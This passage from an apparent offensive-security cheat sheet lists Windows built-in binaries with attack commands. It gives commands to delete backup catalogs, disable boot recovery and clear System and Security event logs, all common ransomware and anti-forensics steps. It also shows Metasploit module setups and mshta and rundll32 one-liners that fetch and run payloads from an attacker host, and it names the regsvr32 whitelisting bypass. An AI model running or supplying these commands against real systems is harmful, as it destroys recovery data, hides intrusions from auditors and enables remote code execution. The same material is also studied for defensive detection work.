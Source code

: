   - <https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/wbadmin>
  - Perform backups and restores of operating systems, drive volumes, computer files, folders, and applications from a command-line interface.
  - Delete any recovery catalogs:
    ```
    cmd.exe /c wbadmin.exe delete catalog -quiet
    ```
- BCDEdit
  - <https://docs.microsoft.com/en-us/windows-hardware/manufacture/desktop/bcdedit-command-line-options>
  - Tool for managing Boot Configuration Data (BCD). BCD files provide a store that is used to describe boot applications and boot application settings.
  - Usable to creating new stores, modifying existing stores, adding boot menu options, and so on.
  - Windows recovery console does not attempt to repair anything:
    ```
    cmd.exe /c bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no
    ```
- wevtutil
  - <https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil>
  - Enables you to retrieve information about event logs and publishers. You can also use this command to install and uninstall event manifests, to run queries, and to export, archive, and clear logs.
  - Clear System and Security logs:
    ```
    cmd.exe /c wevtutil.exe cl System
    cmd.exe /c wevtutil.exe cl Security
    ```
- DUMPBIN
  - <https://docs.microsoft.com/en-us/cpp/build/reference/dumpbin-reference?view=vs-2017>
  - Displays information about Common Object File Format (COFF) binary files. You can use DUMPBIN to examine COFF object files, standard libraries of COFF objects, executable files, and dynamic-link libraries (DLLs).
- HTA
  - Application where source code consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript. An HTA executes without the constraints of the internet browser security model; it executes as a "fully trusted" application.
- Mshta.exe (HTA)
  - Running HTA( HTML Application) files
    ```
    use exploit/windows/misc/hta_server
    msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
    msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
    msf exploit(windows/misc/hta_server) > exploit
    ```
    ```
    mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
    ```
- Rundll32.exe
  - Invoke a function exported from a DLL
    ```
    use exploit/windows/smb/smb_delivery
    msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109
    msf exploit(windows/smb/smb_delivery) > exploit
    ```
    ```
    rundll32.exe \\192.168.1.109\vabFG\test.dll,0
    ```
- Regsvr32.exe
  - Register and unregister OLE controls, such as DLLs and ActiveX controls in the Windows Registry
  - installed in the %systemroot%\System32
  - Windows XP and later
  - Regsvr32 uses “squiblydoo” technique for bypassing application whitelisting
  - Execute Script Via regsvr32.exe <https://gist.github.com/coh7eiqu8thaBu/809f49aa24ace2b9f326ab419f7b124a>